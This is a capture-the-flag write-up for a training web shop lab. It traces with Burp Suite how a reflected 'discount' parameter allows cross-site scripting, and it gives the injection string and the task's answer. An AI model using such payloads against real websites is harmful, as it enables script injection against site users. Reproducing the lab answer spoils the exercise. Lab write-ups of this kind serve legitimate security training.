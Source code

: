 <h1 align=center>Cross site scripting attack/XSS</h1>

# TASK 8
## What other hidden parameter can be found on the shop which can introduce an XSS vulnerability

#### to be honest i spend 1+ hour for this question. don't try manually. use burp suite instead of it.

first click on the products from "sticker pack" and "hoodie", then type discount coupon code and hit "add to basket" button, remember use burp to capture this request

## Request

```
POST /product?id=2 HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/product?id=2
Cookie: session=9604154dd85ab285184436dd6ebc37cd
Upgrade-Insecure-Requests: 1

add_to_basket=1&discount=12
```


### notice on the http request start line and body
```
id=2
add_to_basket=1
discount=12
```


### then i'm trying to execute xss using those parameter. but not interesting. so i changed the request method.

``` 
GET /product?id=2&add_to_basket=1&discount=12 HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/product?id=2
Cookie: session=9604154dd85ab285184436dd6ebc37cd
Upgrade-Insecure-Requests: 1 
```

### and it also refleted back on the page 
``` 
 <form method="post">
       <input type="hidden" name="add_to_basket" value="1">
       <div style="margin-bottom:10px"><input placeholder="Discount Code" class="form-control" name="discount" value="12"></div>
       <input type="submit" class="btn btn-success" value="Add To basket">
       <input type="button" class="btn btn-info checkstock" data-product-id="1" value="Check Stock">
 </form>
 ```

### notice on the ```"name="discount" value="12">"```

### if i inject like this => "<script>alert("hacked by nazu")";// inside discount parameter guess what will happened?

### first it will close the value parameter using double quote(") then the code will execute.

# look 

value="12"
value=""<script>alert("hacked by nazu")";" | boom! 

```answer = discount```
